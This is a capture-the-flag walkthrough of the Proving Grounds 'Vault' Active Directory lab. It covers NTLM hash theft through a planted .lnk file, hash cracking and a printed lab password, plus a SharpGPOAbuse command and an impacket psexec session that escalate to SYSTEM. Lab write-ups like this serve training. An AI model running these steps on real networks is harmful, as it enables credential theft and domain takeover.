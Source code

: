 ```yaml
---
title: "Vault"
date: 2025-06-20
categories:
  - Proving Grounds
  - Active Directory
tags:
  - Proving Grounds
  - Active Directory
---
```


# Vault 🔺
<!-- more -->


## Enumeration

![](../assets/Pasted%20image%2020250429091824.png)

Using `--rid` force, we have the users and groups.

![](../assets/Pasted%20image%2020250429173528.png)

There is a writable folder `DocumentsShare`, so we can put a `.lnk` file pointing to our `smb2` server to get hashes using `ntml_theft`.

![](../assets/Pasted%20image%2020250429194145.png)
![](../assets/Pasted%20image%2020250429194205.png)
![](../assets/Pasted%20image%2020250429194215.png)

Using `hashcat`:

![](../assets/Pasted%20image%2020250429201615.png)

`anirudh:SecureHM`

## Initial Access

![](../assets/Pasted%20image%2020250429201725.png)

Get the flag.

![](../assets/Pasted%20image%2020250429201753.png)

## Privilege Escalation

Using `bloodhound-python`, we notice that the user has `writedacl` permissions.

![](../assets/Pasted%20image%2020250429235549.png)

We can use [`SharpGPOAbuse.exe`](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SharpGPOAbuse.exe) to add ourselves to the admin group.

```powershell
*Evil-WinRM* PS C:\Users\anirudh\Documents> ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
[+] Domain = vault.offsec
[+] Domain Controller = DC.vault.offsec
[+] Distinguished Name = CN=Policies,CN=System,DC=vault,DC=offsec
[+] SID Value of anirudh = S-1-5-21-537427935-490066102-1511301751-1103
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\vault.offsec\SysVol\vault.offsec\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
*Evil-WinRM* PS C:\Users\anirudh\Documents> 
```

Re-enter with `psexec` and:

```shell
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py vault.offsec/anirudh:SecureHM@192.168.120.116
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 192.168.120.116.....
[*] Found writable share ADMIN$
[*] Uploading file WGPlQkwE.exe
[*] Opening SVCManager on 192.168.120.116.....
[*] Creating service LVYv on 192.168.120.116.....
[*] Starting service LVYv.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

## Post Exploitation

Get the flag.
